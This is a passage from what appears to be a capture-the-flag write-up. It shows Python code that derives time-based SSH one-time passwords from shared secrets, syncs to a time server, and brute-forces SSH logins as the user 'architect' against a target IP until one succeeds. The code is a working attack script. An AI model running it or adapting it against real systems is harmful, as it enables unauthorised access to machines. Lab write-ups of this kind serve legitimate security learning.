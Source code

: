 ```bash
        UC = CTT ^ random.choice(self.listSecret)

        # hash OTP
        HC = (sha256(repr(UC).encode('utf-8')).hexdigest())

        # HC Truncate
        T = HC[22:44]
        
        SSHOTP = T
        return SSHOTP

    def bruteForceSSH(self, SSHUsername, OTP):
        print(f'_____________________________________________ Trying SSH OTP: {OTP} ...', end='\r')

        sshClient = SSHClient()
        sshClient.set_missing_host_key_policy(AutoAddPolicy())
        try:
            sshClient.connect(self.targetIPAdress, username=SSHUsername, password=OTP, banner_timeout=300)
            return True
        except AuthenticationException:
            # print(f'_____________________________________________ wrong OTP: {OTP}.  :-(')
            pass
        except ssh_exception.SSHException:
            print('_____________________________________________ Attempting to connect ...')

def main():    
    timeSimulatorClient = TimeSimulatorClient(sharedSecret1, sharedSecret2, sharedSecret3, targetIPAdress)

    # Change timezone & sync to the time server
    timeSimulatorClient.setTimeZone()
    timeSimulatorClient.syncTime()

    # Brute forcing SSH with computed OTP
    SSHUsername = 'architect'
    while True:
        OTP = timeSimulatorClient.getOTP()
        bruteForceResult = timeSimulatorClient.bruteForceSSH(SSHUsername, OTP)

        if bruteForceResult is True:
            print(f'_____________________________________________ Found the correct OTP! {SSHUsername}:{OTP}')
            break

if __name__ == '__main__':
    main()
```

<br>
<h1 align="center">user<a id='6'></a></h1>
